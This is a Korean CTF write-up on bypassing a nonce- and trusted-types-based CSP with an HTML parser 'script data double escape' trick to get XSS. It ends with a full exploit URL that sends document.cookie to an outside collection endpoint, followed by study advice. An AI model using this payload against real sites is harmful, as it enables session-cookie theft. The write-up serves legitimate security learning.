 매우 간단한 구성을 가진 코드다. xss를 해야하는데 csp가 걸려있다.

```
default-src 'self'; base-uri 'none'; script-src 'nonce-~~'
'unsafe-inline'; require-trusted-types-for 'script'; trusted-types default"
```

굉장히 튼튼해보이며, template이 들어가는 곳엔 sanitize 없이 우리의 Input이 출력된다.

```
{{ note | safe }}
```

Injection이 가능한 point는 2곳이 존재한다.

```html
<script nonce="{{ nonce }}">
  const debug = () => {
      const name = "{{ name | safe }}";
      const code = "{{ code | safe }}";
      console.log(`${name} : execute debug mode`)
      eval(code);
  }
  if ({{ is_admin }}) {
      debug();
  }
</script>
```

첫 번째는 맨 먼저 나오는 스크립트 태그, 두 번째는 마지막 스크립트 태그에 있다.
이때 name, code 파라미터엔 `(,),{,}`가 필터링되었기 때문에 quote를 탈출해도 임의의 함수 실행이 불가능하다.
2번째 인젝션 포인트에선 `(,),{,}`를 사용할 수 있지만 json 형태로 변형되며 backslash가 붙기 때문에 quote를 탈출할 수 없다.
이를 익스플로잇하기 위해선 nonce bypass를 위해 script 태그의 탈출 없이 이미 정의된 script tag 내에서 함수를 실행해야한다.
여기서 대충 html 스펙을 이용한 트릭을 사용해주면 된다.

```js
<!--<script//*
```

위의 코드를 name이나 code 파라미터에 넣을 경우 script data double escape state라는 쌈뽕한 것을 사용할 수 있다.
이는 html parser가 파싱할 때 각 태그를 토큰화하여 분석하기 때문인데
https://html.spec.whatwg.org/multipage/parsing.html#script-data-double-escape-start-state
이걸 읽어보자.

아무튼 저걸 쓰면 2개의 html을 기가막히게 합칠 수 있다. 그럼 아래 부분에서 마저 인젝션을 해주면 xss를 얻을 수 있다.

`http://server:8188/report?url=http://web:8080/?title=adsf%26name=<!--<script//*%26content=<img src=%27*/};location.replace(`https://enllwt2ugqrt.x.pipedream.net/${document.cookie}`);console.log({//</script><!--`

### 블로그 포스트 작성자의 추가적인 코멘트

우리의 input이 raw하게 그대로 우리가 사용하는 html에 삽입된다는 점은 쉽게 파악할 수 있지만, 그 이후의 exploit이 어려운 문제입니다. XSS의 문제가 출제되었지만 비슷한 형식의 filter가 주어져있던 과거 문제들을 서칭해보거나 html에 관련한 트릭들에는 어떤 것들이 있는지 공부해보면 해결할 수 있는 문제입니다. <br>
어떤 문제든 CTF에 출제된 문제들은 결국 **풀리기 위해** 존재하는 문제들입니다. 위와 같이 csp의 제약과, 한 script태그 내에서 익스플로잇을 진행해야하는 점을 감안한다면 현 상황에서는 html parsing 과정에서 발생할 수 있는 트릭과 같이 다양한 트릭들을 떠올려볼 수 있습니다. <br>
웹해킹의 경우에는 이러한 트릭들이 단순히 CTF 뿐만 아니라 0-day 익스플로잇에 사용되는 경우도 많습니다. 때문에, CTF 문제들의 업솔빙과 다양한 1-day 리서치를 진행해보는 것도 이러한 유형의 문제들을 푸는데에 도움이 많이 될 것 같습니다. 마치 지식들을 뇌에 기억해두었다가 필요할 때 백과사전처럼 필요한 정보를 꺼내 활용하는 것처럼 말입니다.

---